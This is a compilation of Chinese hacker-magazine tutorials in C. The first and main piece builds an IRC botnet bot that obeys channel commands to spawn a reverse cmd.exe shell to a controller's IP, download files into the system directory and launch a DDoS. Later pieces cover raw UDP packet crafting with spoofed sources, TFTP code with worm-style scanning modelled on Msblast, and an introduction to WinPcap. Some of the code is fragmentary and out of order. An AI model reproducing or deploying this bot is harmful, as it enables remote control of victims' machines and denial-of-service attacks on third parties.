但对攻击而言，构建僵尸网络是种比较好的方式。在上篇文章里，我已经对IRC僵尸网络原理做了简单介绍，这里再简单提一下。IRC聊天方式有很多优点，其一就是客户端登录服务器后可以自己建立一个聊天房间，每一个进入聊天房间的人可以给其他的所有人发送聊天信息，就像在QQ群里一样。这样，进入这个房间的人和别的登录者之间就形成了一个可一对多的控制网络。当房间里的一个ID是IRCBOT的控制者，其他的是IRCBOT时，一个僵尸网络就构成了。控制者在房间里发送事先协定好的命令消息，IRCBOT们收到命令消息后执行命令，发动攻击，如图1所示。

通常由于受控制的IRCBOT数量非常多，常常数以万计，所以这种攻击危害非常大。同时僵尸网络的控制者是通过网络上公开的IRC服务器对BOT进行控制，并非直接控制，这样即使找到了正在攻击的IRCBOT主机，要查找出真正的发动攻击者也有一定的难度。正是这些原因使得僵尸网络十分流行。

了解了IRC僵尸网络的原理，下面我们就编程实现一个简单的IRCBOT。开始之前，我们先了解一下IRC协议。IRC聊天是建立在IRC协议基础之上的，IRC的协议命令非常之多，整个过程也很复杂，大家若是有兴趣，可以去 http://www.irchelp.org/irchelp/rfc/ 查看有关IRC命令的详细介绍。我们不是要编写一个功能完整的IRC客户端，所以也不需要知道太多的协议命令，只需要基本的登录过程和收发消息的协议命令就够了。

为了直观地了解整个通信过程，我们用协议分析工具来简单分析一下IRC登录以及消息的收发过程。由于现在网上的IRC服务器有太多广告消息，所以我们在本地搭建一个IRC服务器，方便看清楚通信过程的细节。我使用的是从网上下载的一个小型IRC Server，程序运行后如图2所示。


图1


图2

协议分析使用的是 wkiller1.0.exe，一个常见的网络数据抓包工具，运行后在进程列表里选择 IRCSERVER.exe，单击 START 就开始抓取通信数据了。Client 程序使用的是 Dana，国外的一个小巧的IRC客户端。

先单击“File->properties”设置登录服务器为本地主机，连接端口为6667（IRC服务器默认端口），点“确定”后再点击 File 选择 Connect，输入昵称后即可连接到IRC服务器。随后在文本输入处输入“/JOIN #hacker.com.cn”进入聊天室。第一个进入房间的人是房主，拥有管理权限。下面是抓包后整理的数据。

登录过程很简单：客户端连接IRC服务器后发送 USER 命令，服务器提示需要登录后再发送 NICK 命令，随后发送 JOIN 进入房间。服务器会发送 PING 判断客户端是否在线，客户端应答 PONG，否则连接可能断开。

```text
// 对服务器端进行嗅探
接收:
USER anonym localhost localhost :Anonym
// 第一次发送的是USER命令
NICK tmya
// 发送NICK命令，改变当前昵称为tmya

接收:
JOIN :#hacker.com.cn

发送:
:tmya JOIN #hacker.com.cn
:irc.undefined.com 332 tmya #hacker.com.cn ...
:irc.undefined.com 353 tmya = #hacker.com.cn :@tmya
:irc.undefined.com 366 tmya #hacker.com.cn :End of /NAMES list.

发送:
irc.undefined.com 324 tmya #hacker.com.cn +tn
...（NAMES相关返回）

发送:
PING

接收:
MODE #hacker.com.cn

接收:
PONG
```

接下来观察消息收发过程：再运行一个Dana，使用另一个用户名（如test）进入同一频道，在Dana里输入消息“Hello www.hacker.com.cn”并发送，聊天室内可见该广播消息。


图3

在用户列表中双击 test 可打开私聊窗口，输入测试消息“hello hacker”，如图4所示。


图4

这样即可在聊天室发送广播消息和私聊消息。广播消息经服务器转发给在线客户端，私聊消息仅发送给指定在线客户端。下面是此时抓到的数据。

```text
// 服务器端抓取到的数据
接收:
PRIVMSG #hacker.com.cn :Hello www.hacker.com.cn

发送:
// 发送的广播消息
:tmya PRIVMSG #hacker.com.cn :Hello www.hacker.com.cn
#hacker.com.cn:
:irc.undefined.com 353 test = #hacker.com.cn :@tmya test
:irc.undefined.com 366 test #hacker.com.cn :End of /NAMES list.

接收:
PRIVMSG test :hello hacker

发送: // 发送的私聊消息
:tmya PRIVMSG test :hello hacker
...（后续含 353/366 返回）
```

分析上面的数据，客户端发送消息的过程是先向服务器端发送消息，服务器按所发的消息是广播消息还是私聊消息，处理后再发送给用户。由此，我们可以得到IRC聊天消息发送和接收的命令和格式。

- 客户端向服务器发送广播消息：`PRIVMSG 聊天房间(一般以#开头) :消息内容`
- 服务器向客户端发送广播消息：`发送者昵称 PRIVMSG 聊天房间名 :消息内容`
- 客户端向服务器发送私聊消息：`PRIVMSG 接收者昵称 :消息内容`
- 服务器向客户端发送私聊消息：`发送者昵称 PRIVMSG 接收者昵称 :消息内容`

经过上面的分析总结，我们知道了IRC的登录以及消息的收发过程。上面的过程忽略了一些不重要的数据，还有很多协议命令以及命令参数没有涉及到，实际过程十分复杂。不过有了这些，我们要实现一个简单的IRCBOT足够了。

下面我们就具体实现一个IRCBOT，开发工具为VC6.0，本地服务器采用IRCServ.exe，客户端Dana.exe。限于篇幅，我只实现两个简单的功能，反弹一个CMDShell和远程批量下载文件并执行。

根据上面的分析结果，我们先定义需要用到的全局变量。

```c
char Nickname[10] = "air_bot";   // BOT 的昵称
char Channel[20] = "#hacker.com.cn"; // 聊天房间
char port[7] = "6667";           // IRC 服务器端口
// char hostname[20] = "82.96.64.4"; // 连接服务器地址（示例）
```

```c
char hostname[20] = "127.0.0.1"; // 本地 IP 地址
```

然后再声明两个函数。

```c
int logon(SOCKET s);      // 登录到服务器
int DealWithMsg(SOCKET s);// 处理登录后的消息，IRCBOT 主体部分
```

在程序连接到IRC服务器6667端口后，紧接着就发送登录信息。下面是 `logon(SOCKET s)` 函数的实现代码。

```c
int logon(SOCKET s)
{
    char buffer[MAX_DATA] = {0};
    sprintf(buffer,"USER %s Air IrcBot test\r\n",Nickname);
    send(s,buffer,strlen(buffer),0);

    sprintf(buffer,"NICK %s\r\n",Nickname);
    send(s,buffer,strlen(buffer),0);

    sprintf(buffer,"JOIN %s\r\n",Channel);
    send(s,buffer,strlen(buffer),0);

    sprintf(buffer,"PRIVMSG %s :hello! IRCbot test\r\n",Channel);
    send(s,buffer,strlen(buffer),0);

    return 0;
}
```

当IRCBOT进入房间后，就开始等待控制者发送带有控制命令的消息了。在没有收到消息时，为了保持在线，必须要对服务器PING命令进行响应，否则会被服务器强制断开。下面开始处理登录房间后收到的消息。

```c
int DealWithMsg(SOCKET s)
{
    char sz_nick[DATA] = {0};
    char sz_command[DATA] = {0};
    char sz_channel[DATA] = {0};
    char Msg_text[MAX_DATA*8] = {0};
    char Buff[MAX_DATA*8] = {0};
    static char rt[8] = {0};
    char cmd[8] = {0};
    char arg[128] = {0};

    while(1)
    {
        int i, ret;
        i = recv(s,Buff,8191,0);
        // ... 解析并处理消息/命令
    }
}
```

```c
if(i==6)
{
    strncpy(rt,Buff,4);
    rt[4] = '\0';
    if (strcmpi(rt,"PING") == 0)  // 收到服务器PING命令
    {
        send(s,"PONG\n",strlen("PONG\n"),0);
    } // 发出响应PONG
    i=0;
}
```

```c
{
    sprintf(Buff,":%s PRIVMSG %s :Http DownLoad The File Successfully\r\nThe File Current Path:%s\r\n",Nickname,sz_nick,fname);
    send(s,Buff,strlen(Buff),0);
}
else
{
    sprintf(Buff,":%s PRIVMSG %s :Fail To Http DownLoad The File\r\n",Nickname,sz_nick);
    send(s,Buff,strlen(Buff),0);
}
sprintf(Buff,":%s PRIVMSG %s :Download finished!...\r\n",Nickname,sz_nick);
send(s,Buff,strlen(Buff),0);

else
{
    sscanf(Msg_text,"%s %s",cmd,arg);
    if (strcmp(cmd,"help") == 0) // 显示帮助信息
    {
        for(i=0;i<6;i++)
        {
            sprintf(Buff,":%s PRIVMSG %s :%s\r\n",Nickname,sz_nick,Help_Msg[i]);
            printf("%s\n",Buff);
            send(s,Buff,strlen(Buff),0);
        }
    }

    // 反弹一个CMDShell，对单个IRCBOT进行控制
    if (strcmp(cmd,"recmd") == 0)
    {
        if(strlen(arg)==0)
        {
            WSADATA ws;
            SOCKET hSocket;
            STARTUPINFO si;
            PROCESS_INFORMATION pi;
            struct sockaddr_in adik_sin;
            memset(&adik_sin,0,sizeof(adik_sin));
            memset(&si,0,sizeof(si));
            WSAStartup(MAKEWORD(2,0),&ws);
            hSocket=WSASocket(AF_INET,SOCK_STREAM,NULL,NULL,NULL,NULL);
            adik_sin.sin_family=AF_INET;
            adik_sin.sin_port=htons(7788);
            adik_sin.sin_addr.s_addr=inet_addr(arg);
            if(0!=connect(hSocket,(struct sockaddr*)&adik_sin,sizeof(adik_sin))) return -1;
            si.cb=sizeof(si);
            si.dwFlags=STARTF_USESTDHANDLES;
            si.hStdInput=si.hStdOutput=si.hStdError=(void *)hSocket;
            CreateProcess(NULL,"cmd.exe",NULL,NULL,1,NULL,NULL,NULL,&si,&pi);
        }
    }
}
```

由于我是用 IRCServ.exe 在本地测试的，IRCServ.exe 这个程序里的 PING 加上回车刚好长度为6，所以才可以用判断数据长度的方法来判断。在连接到网络上的IRC服务器时，这里可能会有点不同，有的是在PING后面加上用户昵称实现的，就留给读者朋友们自己处理一下啦。

```c
else
{ // 收到不是PING的消息时
    Ret = sscanf(Buff,":%s%s%s %[^\n\r]",sz_nick,sz_command,sz_channel,Msg_text);
    // 将消息的各个部分分离开，分别得到消息发送者用户名、协议命令、房间和消息内容
    if (strcmp(sz_command,"PRIVMSG") == 0 && strstr(sz_channel,"#") != NULL)
    {   // 说明这里收到的是广播消息
        sscanf(Msg_text,"%s %s",cmd,arg);
        if(strcmp(cmd,"ddos") == 0 && strlen(arg)==0)
        {
            char ip[20];
            char port[7];
            sscanf(arg,"%s:%s",ip,port);
            DDOS(ip,port);
            sprintf(Buff,":%s PRIVMSG %s :DDOS Started!...\r\n",Nickname,sz_nick);
            send(s,Buff,strlen(Buff),0);
        }

        if (strcmpi(cmd,"wget") == 0 && strlen(arg)==0)
        {
            char fname[200];
            char FileName[MAX_PATH]="test.exe";
            GetSystemDirectory(fname,MAX_PATH);
            strcat(fname,"\\");
            strcat(fname,FileName);
            sprintf(Buff,":%s PRIVMSG %s :Download Now ...\r\n",Nickname,sz_nick);
            send(s,Buff,strlen(Buff),0);
            HRESULT hRet=URLDownloadToFile(0,arg,fname,0,0);
            if(hRet==S_OK)
            {
                ...
            }
        }
    }
}
```

```c
else
{
    sprintf(Buff, "%s :PRIVMSG %s :Usage: recmd 127.0.0.1 ...\r\n", Nickname, z_nick);
    printf("%s\n", Buff);
    send(s, Buff, strlen(Buff), 0);
}
...
memset(Buff, 0, sizeof(Buff));
memset(cmd, 0, sizeof(cmd));
memset(arg, 0, sizeof(arg));
return 0;
}
```

```c
server.sin_family = AF_INET;
server.sin_port = htons(atoi(port));
server.sin_addr.s_addr = inet_addr(hostname);
for (;;)
{
    if (connect(s, (struct sockaddr *)&server, sizeof(server)) == SOCKET_ERROR)
        Sleep(5000);
    else break;
}
logon(s);        // 登录到服务器，并进入聊天室
DealWithMsg(s);  // 处理消息，执行命令
return 0;
}
```

这样，整个程序的主体部分代码就编写完了。至于主函数，实现就比较简单了，代码如下。

```c
int main()
{
    WSADATA ws;
    SOCKET s;
    WSAStartup(MAKEWORD(2,2), &ws);
    s = WSASocket(PF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    struct sockaddr_in server;
    ...
}
```

至此，如何编写一个完整的 IRCBOT 就介绍完了，上面的代码基本没有什么难度，相信大家都可以看明白。本文只是为了让大家了解 IRCBOT 程序的基本工作原理，代码比较简陋，如果觉得功能太少就自己动手增加代码吧。以上内容仅做学习之用，请勿用于非法用途。

> 【本文涉及的代码（程序），请见随书光盘】

## Windows环境下

### 实现原始UDP数据包发送

文／图 西安电子科技大学 Hokkien

虽然 Windows XP SP2 已经不再支持原始 TCP 数据包的发送，但就其本身作为一项技术而言，掌握原始数据包的发送也是非常重要的。今天我们要讨论的原始 UDP 数据包的构造，便是这项技术的应用。相信懂得了如何管理 UDP 头，其他协议的封装应该就不成问题了。在阅读本文前，你需要具备以下知识：熟悉 C 语言、Socket 基础知识和 TCP/IP 基础知识。如果你已经掌握了上面的知识，那就让我们行动吧。

#### 数据包格式

在对数据包进行封装之前，我们有必要了解一下数据报格式。图1是 IP 头格式。


图1

大部分都是从资料书籍中来的，但资料毕竟是死的，当我们拿到图1所表示的格式时，似乎有点蒙——这个格式是什么意思啊？怎么看？我记得我初学的时候就老犯这种糊涂。下面具体说明一下。

在认识该格式之前，我们有必要了解一下什么是“大尾”、什么是“小尾”。“大尾”就是高位字节排放在内存的低端，低位字节排放在内存的高端；“小尾”反之。Intel 处理器大多数使用小尾字节序，Motorola 处理器大多数使用大尾（Big Endian）字节序。既然不同的处理器处理的方式不一样，那么在网络交流数据的时候便应该使用同一套标准，不然肯定会发生错误的。TCP/IP 各层协议将字节序定义为大尾，因此 TCP/IP 协议中使用的字节序通常称之为网络字节序，因而在填充数据包的时候一定要注意字节顺序，不然会出错！还有，图1的数据是从左至右字节由低向高，这一点注意一下，初学者容易犯错。

上面是一些需要注意的地方，下面再说一下各个字段的含义。

- 1）版本号：标志版本；
- 2）分组长度（HLEN）：报文头部的字数（字长=32bits）；
- 3）业务类型（Type of Service）：分组的处理方式；
- 4）总长度（Total Length）：分组头部和数据的总长度（字节数）；
- 5）标识（Identification）、标记（Flags）、片偏移（Frag Offset）：对分组进行分片，以便允许网上不同 MTU 时能进行传送；
- 6）生存时间（TTL）：规定分组在网上传送的最长时间（秒）；
- 7）协议（Protocol）：发送分组的上层协议号（TCP=6，UDP=17）；
- 8）校验和（Header Checksum）：分组头校验和；
- 9）源和目的 IP 地址（Source and Destination IP Address）；
- 10）IP 选项（IP Options）：网络测试、调试、保密及其他；
- 11）数据（Data）：上层协议数据。

```c
typedef struct _IPHeader
{
    UCHAR iphVerLen;
    // 版本号和头长度（各占4位）
    UCHAR ipTOS;
    // 服务类型
    USHORT ipLength;
    // 封包总长度，即整个IP报的长度
    USHORT ipID;
    // 封包标识，唯一标识发送的每一个数据报
    USHORT ipFlags;
    // 标志
    UCHAR ipTTL;
    // 生存时间，就是TTL
    UCHAR ipProtocol;
    // 协议，可能是TCP、UDP、ICMP等
    USHORT ipChecksum;
    // 校验和
    ULONG ipSource;
    // 源IP地址
    ULONG ipDestination;
    // 目的IP地址
} IPHeader, *PIPHeader;
```

有了 IP 头，下面就应该是 UDP 头了，如图2所示。下面说一下各个字段的含义。


- 1）源端口（Source Port）：呼叫端端口号；
- 2）目的端口（Destination Port）：被叫端端口号；
- 3）报头长度（HLEN）：报文头部的字节数；
- 4）校验和（Checksum）：报头和数据字段的校验和；
- 5）数据（Data）：上层协议数据。

下面是定义的 UDP 头结构。

```c
typedef struct _UDPHeader
{
    USHORT sourcePort;
    // 源端口号
    USHORT destinationPort;
    // 目的端口号
    USHORT len;
    // 封包长度
    USHORT checksum;
    // 校验和
} UDPHeader, *PUDPHeader;
```

上面我详细介绍了 IP 头和 UDP 头的格式。在我们填充数据包的时候，应该清楚 IP 头、UDP 头和传输数据的顺序应该与图3一致。

```c
typedef struct _IPHeader
// 20字节的IP头
{
    UCHAR iphVerLen;
    // 版本号和头长度（各占4位）
    UCHAR ipTOS;
}
```


图3

#### 编程实现

下面我们来看看发送原始 UDP 封包的代码是如何实现的。首先我们要有一个 IP 校验码，这有前人写好的专门代码，我们不必深究，拿来用就行，在此不贴出来，大家看杂志相关内容即可。下面是主程序的代码，很简单，大家慢慢体会，相信会有所收获的。

```c
int main()
{
    // 输入参数信息
    char szDestIp[] = "88.88.88.88";   // 目标IP
    char szSourceIp[] = "127.0.0.1";   // 本机IP
    USHORT nDestPort = 4567;           // 目的端口
    USHORT nSourcePort = 8888;         // 源端口
    char szMsg[] = "大家好，我是Hokkien!\r\n";
    int nMsgLen = strlen(szMsg);

    SOCKET sRaw = socket(AF_INET, SOCK_RAW, IPPROTO_UDP);
    BOOL bIncl = TRUE;
    setsockopt(sRaw, IPPROTO_IP, IP_HDRINCL, (char *)&bIncl, sizeof(bIncl));

    char buff[1024] = {0};
    IPHeader *pIphdr = (IPHeader *)buff;
    pIphdr->iphVerLen = (4<<4 | (sizeof(IPHeader)/sizeof(ULONG)));
    pIphdr->ipLength = htons(sizeof(IPHeader) + sizeof(UDPHeader) + nMsgLen);
    pIphdr->ipTTL = 128;
    pIphdr->ipProtocol = IPPROTO_UDP;
    pIphdr->ipSource = inet_addr(szSourceIp);
    pIphdr->ipDestination = inet_addr(szDestIp);
    pIphdr->ipChecksum = checksum((USHORT*)pIphdr, sizeof(IPHeader));
}
```

```c
// 校验码，这是必需的！
// 填充UDP头
UDPHeader *pUdphdr = (UDPHeader *)&buff[sizeof(IPHeader)];
pUdphdr->sourcePort = htons(8888);            // 源端口
pUdphdr->destinationPort = htons(nDestPort);  // 目的端口
pUdphdr->len = htons(sizeof(UDPHeader) + nMsgLen);
pUdphdr->checksum = 0;

char *pData = &buff[sizeof(IPHeader) + sizeof(UDPHeader)];
memcpy(pData, szMsg, nMsgLen);
ComputeUdpPseudoHeaderChecksum(pIphdr, pUdphdr, pData, nMsgLen);

SOCKADDR_IN destAddr = {0};
destAddr.sin_family = AF_INET;
destAddr.sin_port = htons(nDestPort);
destAddr.sin_addr.S_un.S_addr = inet_addr(szDestIp);

int nRet;
for (int i=0; i<5; i++) {
    nRet = sendto(sRaw, buff,
                  sizeof(IPHeader) + sizeof(UDPHeader) + nMsgLen,
                  0, (sockaddr*)&destAddr, sizeof(destAddr));
    if (nRet == SOCKET_ERROR) {
        printf("sendto() failed: %d\n", WSAGetLastError());
        break;
    } else {
        printf("sent %d bytes\n", nRet);
    }
}
closesocket(sRaw);
getchar();
return 0;
```

#### 总结

需要注意的是，如果这段代码在 Windows XP SP2 以前的操作系统上运行，可以使用假的源 IP 地址。但遗憾的是，Windows XP SP2 中则必须指定一个有效的 IP 地址，而且不是回环 IP（即 127.0.0.1）。Windows 现在已经不支持原始 TCP 的发送了。这种限制使得在 XP 上进行相关实验不太自由。可行的办法是使用驱动方案，例如 WinPcap 来绕开这类限制。对于这种方法，后续可再讨论。

## 教你实现TFTP协议

文／图 Scuhkr／古开元  四川大学信息安全研究所


不论你是热衷于黑客技术的爱好者，还是从事编写网络应用程序的程序员，都需要有熟练的编程能力，以及具备扎实的 TCP/IP 协议的基础。很多初学者都有过这样的经历，要么是能编一些复杂算法的程序，却不能结合到实际的应用中，要么就是三卷 W. Richard Stevens 的圣经《TCP/IP详解》熟记于胸，却无法用熟悉的编程语言将其实现。这真是件很令人郁闷的事。出于这样的目的，本文就结合 TCP/IP 协议中的 TFTP 协议来分析，并简单实现了 Windows 下 TFTP 的服务器和客户端。

本文大部分理论引用于《TCP/IP详解卷一》和中国协议分析网 www.cnpaf.net。


图1

#### 协议分析

TFTP（Trivial File Transfer Protocol）即简单文件传送协议，是 TCP/IP 协议族中的一个用来在客户机与服务器之间进行简单文件传输的协议，提供不复杂的、开销不大的文件传输服务。为了保持简单和短小，TFTP 使用 UDP 协议，且默认端口号为 69，它不提供可靠的数据流传输服务，也不提供存取授权与认证机制，使用超时重传方式来保证数据的到达。与 FTP 相比，TFTP 的大小要小得多。它主要用于小文件的传输，只能从文件服务器上获得或写入文件，不能列出目录。更多的资料可以参考 RFC1350。下面给出 5 种 TFTP 报文格式，如图1所示。

结合图1，我们可以看到，TFTP 报文的头两个字节表示操作码。对于读请求（RRQ）和写请求（WRQ），文件名字字段说明客户要读或写的位于服务器上的文件。这个文件字段以 0 字节作为结束。模式字段是一个 ASCII 码串 netascii 或 octet（大小写可任意组合），同样以 0 字节结束。netascii 表示数据是以成行的 ASCII 码字符组成，以两个字节一回车字符后跟换行字符（称为 CR/LF）作为行结束符。这两个行结束字符在这种格式和本地主机使用的行定界符之间进行转换。octet 则将数据看做 8 bit 一组的字节流而不作任何解释。

每个数据分组包含一个块编号字段，它以后要在确认分组中使用。以读一个文件作为例子，TFTP 客户需要发送一个读请求说明要读的文件名和文件模式（mode）。如果这个文件能被这个客户读取，TFTP 服务器就返回一个块编号为 1 的数据分组，TFTP 客户又发送一个块编号为 1 的 ACK，TFTP 服务器随后发送块编号为 2 的数据，TFTP 客户发回块编号为 2 的 ACK，重复这个过程直到这个文件传送完。除了最后一个数据分组可含有不足 512 字节的数据，其他每个数据分组均含有 512 字节的数据。当 TFTP 客户收到一个不足 512 字节的数据分组，就知道它收到最后一个数据分组了。

在写请求的情况下，TFTP 客户发送 WRQ 指明文件名和模式。如果该文件能被该客户写，TFTP 服务器就返回块编号为 0 的 ACK 包。该客户就将文件的头 512 字节以块编号为 1 发出，服务器则返回块编号为 1 的 ACK。

最后一种 TFTP 报文类型是差错报文，它的操作码为 5。它用于服务器不能处理读请求或写请求的情况。在文件传输过程中的读和写差错也会导致传送这种报文，接着停止传输。差错编号字段给出一个数字的差错码，跟着是一个 ASCII 表示的差错报文字段，可能包含额外的操作系统说明的信息。

根据图1及上面的分析，我们可以得到以下定义：

```c
#define TFTP_RRQ   01   // 读请求
#define TFTP_WRQ   02   // 写请求
#define TFTP_DATA  03   // 数据包
#define TFTP_ACK   04   // 确认包
#define TFTP_ERROR 05   // 错误代码
```

头文件结构也能很容易得到：

```c
typedef struct tftphdr {
    USHORT tu_opcode;       // 操作码
    union {
        USHORT tu_block;    // 块号
        USHORT tu_code;     // 错误码
        char   tu_stuff[1]; // 请求包填充物
    } th_u;
    char th_data[1];        // 数据或错误字符串
} TFTP_HDR, *PTFTP_HDR;
```

### TFTP服务器的实现

不知道大家对3年前的冲击波病毒 Msblast.exe 是否还有印象，该病毒通过 RPC 远程溢出漏洞溢出目标主机后，会绑定目标主机的 4444 端口，然后利用 Windows 系统自带的 tftp 客户端程序发送下载消息。目标主机通过 tftp 下载病毒再运行病毒，反复循环导致更多的计算机受到感染。因为 Windows 系统并没有默认的 TFTP 服务端程序，所以此时的关键就在于 Msblast.exe 病毒本身就是个 tftp 服务器。至于 TFTP 服务器的实现，以前 ww0830 在黑防介绍过，为了满足大多数读者的要求，及关系到本文的完整性，我这里也给出具体实现。注意：本 TFTP 服务端只实现了供客户端程序下载的功能，更多的功能读者可以自己完善。

下面给出 TFTP 实现核心代码及详细注释。

> 以下所有代码均在 Windows XP SP1+VC6.0 环境下编译通过，因为主要理解思路，所以省略了错误处理等步骤。完整源代码见光盘。

初始化 Winsock 库，注意要加上 ws2_32.lib 库文件：

```c
WSADATA WSAData;
WSAStartup(MAKEWORD(2, 2), &WSAData);
```

创建套接字。

```c
SOCKET sock = INVALID_SOCKET;
sock = socket(AF_INET, SOCK_DGRAM, 0); // UDP
```

初始化本地主机地址信息。

```c
struct sockaddr_in ServerAddr;
ServerAddr.sin_family = AF_INET;
ServerAddr.sin_addr.s_addr = inet_addr(MyIp); // 本主机IP
ServerAddr.sin_port = htons(69); // TFTP默认端口
```

绑定套接字。

```c
bind(sock, (struct sockaddr *)&ServerAddr, sizeof(struct sockaddr_in));
```

初始化远程地址信息。

```c
struct sockaddr_in Client;
Client.sin_family = AF_INET;
Client.sin_port = htons(INADDR_ANY);
Client.sin_addr.s_addr = inet_addr(RemoteIp); // 远程IP
```

定义 TFTP 首部缓冲区。

```c
TFTP_HDR RecvBuff;  // 接收的数据缓冲区
TFTP_HDR LocalBuff; // 本地数据缓冲区
```

接收数据，定义数据块大小为 512 字节。

```c
int alen = sizeof(Client);
recvfrom(sock, (char *)&RecvBuff, 512, 0, (struct sockaddr *)&Client, &alen);
```

获得客户端的请求操作码。

```c
DataBuff = ntohs((unsigned short)RecvBuff.tu_opcode);
```

打开本地文件。

```c
fp = fopen("abc.txt", "rb"); // 假设abc.txt为服务器文件
```

读本地文件。

```c
fread(fileBuff, sizeof(char), 24, fp);
```

填充 TFTP 首部。

```c
SendBuff.tu_opcode = htons(3);       // 操作码3=data
SendBuff.th_u.tu_block = htons(time);// 块号
memcpy(&(SendBuff.th_data), fileBuff, l);
```

发送文件给客户机（接收文件或数据类似）。

```c
sendto(sock, (char *)&SendBuff, 1+4, MSG_DONTROUTE,
       (struct sockaddr *)&Client, sizeof(Client));
```

整个简单的 TFTP 服务器这样就完成了，是不是很简单？另外说一说，这里如果要模拟冲击波病毒的传播方式，程序最开始有个随机扫描的代码：

```c
WSAStartup(MAKEWORD(2, 2), &WSAData);
SOCKADDR_IN addr;
sock = socket(AF_INET, SOCK_STREAM, 0);
addr.sin_family = AF_INET;
addr.sin_port = htons(80); // 通过80端口是否开放判断对方主机是否存活
addr.sin_addr.s_addr = inet_addr(RemoteIp); // 这里的RemoteIp应该通过一个随机生成网段内IP地址的函数得到
if(connect(sock,(struct sockaddr *)&addr, sizeof(addr))<0)
{
    closesocket(sock);
    WSACleanup();
    return; // 连接失败，停止扫描
}
// 通过getsockname()获取连出去的ip
struct sockaddr_in hostname;
int namelen = sizeof(hostname);
char * source;
getsockname(sock, (struct sockaddr *)&hostname, &namelen);
source = inet_ntoa(hostname.sin_addr);
```

这一段代码的作用是循环连接网段内存活主机的 80 端口，如果发现某台主机存活，蠕虫自身生成的 TFTP 服务器则接受被冲击波病毒溢出的客户端下载请求，复制自身到对方主机，如此恶性循环，会导致蠕虫呈级数性扩散。

## TFTP 客户端的实现

通常情况下，Windows 2000 以上操作系统都可以使用系统自带的 TFTP 客户端程序。但自从 Msblast.exe 蠕虫爆发后，很多用户都关掉了 TFTP 的默认使用。对于很多学习入侵和渗透的人来说，这真是个噩耗。所以，通常很多木马或后门的设计者都在他们的作品里加入了 FTP、Http 下载、Email 或 TFTP 客户端的功能，以加强对“肉鸡”的控制。下面，我们就来分析一下 TFTP 的客户端实现。

TFTP 客户端的实现主要体现在对 TFTP 各种数据包首部字段的分析及填充上。下面给出了部分核心功能的伪代码（具体代码可以参考光盘里的源代码）……根据图 1，可以得到下面的读/写请求数据包格式，如图 2 所示。

| 2 bytes | string | 1 byte | string | 1 byte |
|---|---|---|---|---|
| Opcode | Filename | 0 | Mode | 0 |

图2

于是，定义一个 makereq() 函数来填充请求字段：

```c
int makereq(char type,int mode,char *filename,char *buffer,int size)
{
    int pos = 0; // 位置
    int i = 0;
    char s[32] = "";
    if(mode==TFTP_NETASCII) strcpy(s,"netascii");
    else strcpy(s,"octet");
    buffer[pos] = 0;
    pos++;
    buffer[pos] = type; // Opcode = 01(RRQ) or 02(WRQ)
    pos++;
    for(i=0;i<strlen(filename);i++) { buffer[pos] = filename[i]; pos++; }
    buffer[pos] = 0; // 0
    pos++;
    for(i=0;i<strlen(s);i++) { buffer[pos] = s[i]; pos++; }
    buffer[pos] = 0; // 0
    pos++;
    return pos; // 返回请求包头长度
}
```

下面为 ACK 包格式（如图 3 所示）及填充字段函数 makeack()。

| 2 bytes | 2 bytes |
|---|---|
| Opcode | Block # |

图3

```c
int makeack(unsigned short num,char *buffer,int size)
{
    int pos = 0;
    buffer[pos] = 0;
    pos++;
    buffer[pos] = TFTP_ACK; // Opcode = 04
    pos++;
    buffer[pos] = (char)(num>>8); // 块号2个字节
    pos++;
    buffer[pos] = (char)num;
    pos++;
    return pos;
}
```

同理，DATA 包格式（如图 4 所示）及填充函数 makedata() 如下。

| 2 bytes | 2 bytes | n bytes |
|---|---|---|
| Opcode | Block # | Data |

图4

```c
int makedata(int num,char *data,int datasize,char *buffer,int bufsize)
{
    int pos = 0;
    buffer[pos] = 0;
    pos++;
    buffer[pos] = TFTP_DATA;   // Opcode = 03
    pos++;
    buffer[pos] = (char)(num >> 8);   // Block # 高字节
    pos++;
    buffer[pos] = (char)num;
    pos++;
    memcpy(&buffer[pos], data, datasize);   // Data 数据
    pos = pos + datasize;
    return pos;
}
```

实验如图 5、图 6 所示。


图5


图6

实现下载文件，cmd[][256] 为自定义的参数数据结构，pcount 为参数个数（详细代码请见光盘）。代码的注释很清楚，其实结合文章开始的理论及图，再实现就很简单了。至于上传（put）文件和下载类似，由于篇幅的原因，大家可以参看源代码。

#### 实现效果

首先，ftpServer.exe 为我们第 2 部分介绍实现的 TFTP 服务端程序，在该程序的同级目录下放一个名为“abc.txt”的文件，运行 ftpd.exe。然后，运行第 3 部分介绍的 TFTP 客户端程序 ftpClient.exe，并输入命令：

```bash
#get abc.txt
```

#### 总结

学习网络知识也好，学习黑客技术也罢，对于 TCP/IP 协议的掌握是重中之重。本文虽然只是简单讨论 TFTP 协议的相关理论及实现，但稍微复杂一点的 FTP 协议、POP3 协议、SNMP 协议也都可以通过类似的分析来实现。本人水平有限，本文给出的都是思路，实现都简单得不能再简单了。如有不妥之处，请大家给予批评指正。

> 【本文涉及的代码（程序），请见随书光盘】

## 基于 Winpcap 的原始数据包发送

文／图 HoKkien


在我的文章《Windows 环境下实现原始 UDP 数据包发送》中讨论了用原始套接字实现发送原始数据包的例程，但是这有很多限制，比如 Windows XP SP2 只能发送 UDP 原始数据包，不能发送原始 TCP 数据包等诸多限制。上次我们说过要突破这一限制只有写驱动，可驱动这么复杂的东西我等小菜哪懂啊！不过不要紧，我们有 Winpcap，虽然上期文章提示它有些小漏洞，但总体来说还是比较安全的，应用该开发包编写的软件也有很多，比如著名的协议分析工具 Ethereal。

好了，现在我们来看看读懂本文你需要具备哪些知识。C 应该熟悉，还有基本的 TCP/IP 知识。如果你已经具备了以上知识，那么恭喜你，你可以出发啦，呵呵，Let’s GO!

## Winpcap 简介

我们在学习任何一项技术之前，都应该对该项知识的背景有一定的了解，本文也不例外。在介绍 Winpcap 之前，我们先来认识它一下。

Winpcap（Windows Packet Capture）是 Windows 平台下一个免费的公共网络访问系统。开发 Winpcap 这个项目的目的在于为 Win32 应用程序提供访问网络底层的能力。

它提供了以下的各项功能：捕获原始数据报，包括在共享网络上各主机发送/接收的以及相互之间交换的数据报；在数据报发往应用程序之前，按照自定义的规则将某些特殊的数据报过滤掉；在网络上发送原始的数据报；收集网络通信过程中的统计信息。

Winpcap 的主要功能在于独立于主机协议（如 TCP/IP）发送和接收原始数据报。也就是说，Winpcap 不能阻塞、过滤或控制其他应用程序数据报的收发，它仅仅只是监听共享网络上传送的数据报。因此，它不能用于 QoS 调度程序或个人防火墙。

